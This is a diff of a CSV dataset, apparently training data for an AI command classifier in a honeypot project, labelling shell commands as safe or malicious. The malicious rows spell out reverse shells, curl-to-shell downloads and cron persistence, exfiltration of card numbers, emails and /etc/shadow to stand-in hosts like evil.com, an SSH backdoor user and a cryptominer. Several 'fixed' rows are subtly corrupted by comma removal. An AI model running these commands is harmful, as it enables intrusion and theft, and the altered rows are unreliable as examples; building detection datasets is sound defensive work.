

Before and after one commit to Notee-ai/blockPot-AI, a CSV file: Dataset/commands-classification-cleaned.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
data set update

```diff
--- a/Dataset/commands-classification-cleaned.csv
+++ b/Dataset/commands-classification-cleaned.csv
@@ -138,3 +138,3 @@ id,command,classification
 137,ssh-keygen -t rsa; cat ~/.ssh/id_rsa.pub,safe
-138,cut -d: -f1,"7 /etc/passwd | sort,safe"
+138,cut -d: -f17 /etc/passwd | sort,safe
 139,sudo lsof -i :22; sudo fuser 80/tcp,safe
@@ -146,3 +146,3 @@ id,command,classification
 145,cd /etc/apache2; ls -la sites-*,safe
-146,ps aux | awk '{print $2,"$4,$11}' | sort -k2rn | head -10,safe"
+146,"ps aux | awk '{print $2$4,$11}' | sort -k2rn | head -10",safe
 147,"cd /; find . -name ""passwd"" 2>/dev/null",safe
@@ -180,3 +180,3 @@ id,command,classification
 179,cd /etc/apt/sources.list.d; ls -la,safe
-180,curl -s https://api.weather.gov/points/39.7456,"-97.0892,safe"
+180,curl -s https://api.weather.gov/points/39.7456-97.0892,safe
 181,logrotate -f /etc/logrotate.conf,safe
@@ -329,3 +329,3 @@ id,command,classification
 328,"curl -s hxxp://attacker.com/payload | python -c ""import pty;pty.spawn('/bin/bash')""",malicious
-329,"php -r '$sock=fsockopen(""10.0.0.1""","4242);exec(""/bin/sh -i <&3 >&3 2>&3"");',malicious"
+329,"php -r '$sock=fsockopen(""10.0.0.1""4242);exec(""/bin/sh -i <&3 >&3 2>&3"");'",malicious
 330,sed -i 's/AllowUsers user1/AllowUsers user1 hacker/' /etc/ssh/sshd_config,malicious
@@ -334,3 +334,3 @@ id,command,classification
 333,"crontab -r; echo ""*/1 * * * * /tmp/.backdoor"" | crontab -",malicious
-334,"find /var/www -name ""wp-config.php"" -type f -exec sed -i ""s/define('DB_PASSWORD'"," '.*')/define('DB_PASSWORD', 'hacked')/"" {} \;,malicious"
+334,"find /var/www -name ""wp-config.php"" -type f -exec sed -i ""s/define('DB_PASSWORD' '.*')/define('DB_PASSWORD', 'hacked')/"" {} \;",malicious
 335,grep -o '[0-9]\{16\}' /var/www/html/*.php | curl -d @- hxxp://ccleak.com,malicious
@@ -359,5 +359,5 @@ id,command,classification
 358,cd /tmp; nohup ./cryptominer -a cryptonight -o stratum+tcp://pool.com:3333 -u wallet -p x &,malicious
-359,mount -t cifs //evil.com/share /mnt -o user=user,"pass=pass; cp /etc/shadow /mnt/,malicious"
+359,mount -t cifs //evil.com/share /mnt -o user=userpass=pass; cp /etc/shadow /mnt/,malicious
 360,cd /; find . -type f -size -100k 2>/dev/null | xargs grep -l password | xargs cat | curl -d @- hxxp://pwn.com,malicious
-361,cd /var/mail; grep -r -E -o '\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,"6}\b' * | curl -d @- hxxp://mail-steal.com,malicious"
+361,cd /var/mail; grep -r -E -o '\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{26}\b' * | curl -d @- hxxp://mail-steal.com,malicious
 362,"curl -s hxxp://evil.com/agent.sh | sh; echo ""*/30 * * * * curl -s hxxp://evil.com/check.sh | sh"" | crontab -",malicious
```
Also changed, not shown: 10 edited cells elsewhere in this file, 1 other file.
